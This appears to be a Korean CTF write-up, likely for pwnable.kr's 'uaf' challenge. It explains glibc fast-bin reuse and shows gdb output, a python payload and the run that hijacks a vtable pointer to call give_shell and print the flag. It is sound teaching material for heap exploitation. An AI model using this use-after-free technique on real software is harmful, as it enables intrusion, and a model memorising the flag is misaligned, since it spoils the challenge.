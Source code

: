 data 배열의 시작 주소는 read() 함수를 호출할 때 인자로 전달되는 %rsi 레지스터 값을 보면 알 수 있다. <+394>에서 %rcx 값이 %rsi 에 저장된다. 중단점을 걸고 어떤 값을 갖는지 보자. 이 때 Man 객체와 같은 크기를 갖도록 실행 인자 argv[1]에 24를 넣어 봤다.

```bash
Breakpoint 1, 0x0000000000400fe2 in main ()
gdb-peda$ x/xg $rbp-0x38
0x7ffecb64ce98:	0x0000000000d0cc50

Breakpoint 2, 0x0000000000401053 in main ()
gdb-peda$ info reg rsi
rsi            0xd0cca0	0xd0cca0
```

free 전 Man 객체는 0xd0cc50에, free 이후 after의 data 배열은 0xd0cca0에 할당되었다. 두 값이 0x50 만큼 차이가 난다. 이 부분에서 의문이 생겨 Heap 메모리 구조를 조금 더 공부했다.

-------------------------------

### Heap allocation

힙은 메모리의 효율적인 할당 및 해제를 위한 데이터 구조인 'bin'을 사용한다. 4 ~ 5 가지의 bin이 있으며 할당 / 해제 할 메모리의 크기가 클수록 느리고, 작을수록 가장 빠른 bin을 사용한다. 여기서는 할당 및 해제가 가장 빠른 'fast bin' 을 알아 보자.

#### fast bin
메모리 할당과 해제가 가장 빠른 bin이다. **LIFO 방식**을 사용하고 단일 연결리스트로 청크를 관리한다. fast bin은 32 bit 시스템에서 16 ~ 88 byte의 청크를 관리하고, 64 bit 시스템에서는 32 ~ 128 byte의 청크를 관리한다. 

----------------------------------

다시 돌아가 보면, fast bin은 LIFO 방식을 사용하고 있기 때문에 할당할 메모리의 크기가 w, m에 할당된 메모리 청크의 크기와 맞다면 가장 마지막에 할당 해제된 Woman 객체의 주소가 먼저 할당되는 것이다. 따라서 한 번 더 after를 실행한다면 해제된 Man 객체의 주소가 data 배열로 할당될 것이다. 

```bash
Breakpoint 2, 0x0000000000401053 in main ()
gdb-peda$ info reg rsi
rsi            0xd0cc50	0xd0cc50
```

free 후 after를 두 번 실행했을 때 data 배열에 할당된 주소가 이전 Man 객체의 주소와 같다는 것을 알 수 있다. 이제 data 배열에 들어갈 내용을 0x401568로 설정해 준다면 m->introduce()를 호출할 때 0x401568 + 0x8 = 0x401570 번지에 저장된 값을 호출하게 된다. 위에서 확인했듯이 0x401570 번지에는 Human::give_shell()의 시작 주소가 저장되어 있다. 

```bash
uaf@pwnable:~$ python -c 'print("\x68\x15\x40\x00\x00\x00\x00\x00")' > /tmp/gogee/hi
uaf@pwnable:~$ ./uaf 24 /tmp/gogee/hi
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_f1ag_aft3r_pwning
$ 
```
